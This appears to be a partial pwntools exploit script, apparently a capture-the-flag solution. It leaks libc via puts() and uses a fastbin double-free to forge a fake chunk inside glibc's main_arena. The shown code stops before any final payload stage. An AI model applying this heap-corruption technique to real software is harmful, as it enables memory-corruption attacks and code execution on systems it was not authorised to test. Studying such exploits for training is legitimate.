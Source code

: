 ```python
def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    else:
        return process(elf.path)

def malloc(size, data):
    global index
    io.send(b'1')
    io.sendafter(b'size: ', f'{size}'.encode())
    io.sendafter(b'data: ', data)
    io.recvuntil(b'> ')
    index += 1
    return index -1

def free(id):
    io.send(b'2')
    io.sendafter(b'index: ', f'{id}'.encode())
    io.recvuntil(b'> ')

io = start()
#io.timeout = 0.1
io.recvuntil(b'puts() @ ')


puts_leak = int(io.recvline(), 16)
libc.address = puts_leak - libc.sym['puts']
info("puts: " + hex(puts_leak))
info("libc: " + hex(libc.address))

#===========================================================================================
"""" 
Fake chunk in main arena to generate valide chunk size field
"""

chunk_A = malloc(0x48, b'a'*0x48)
chunk_B = malloc(0x48, b'b'*0x48)

free(chunk_A)
free(chunk_B)
free(chunk_A)

malloc(0x48, p64(0x61))

#request to 0x61 move to the head of fastbins(also it is in arena)
malloc(0x48, b'c'*0x48)
malloc(0x48, b'd'*0x48)

"""
Link to main_arena to create fake chunk
"""

dup_A = malloc(0x58, b'd'*0x48)
dup_B = malloc(0x58, b'e'*0x48)

free(dup_A)
free(dup_B)
free(dup_A)

#Link to main_arena

malloc(0x58, p64(libc.sym['main_arena'] + 0x20))

```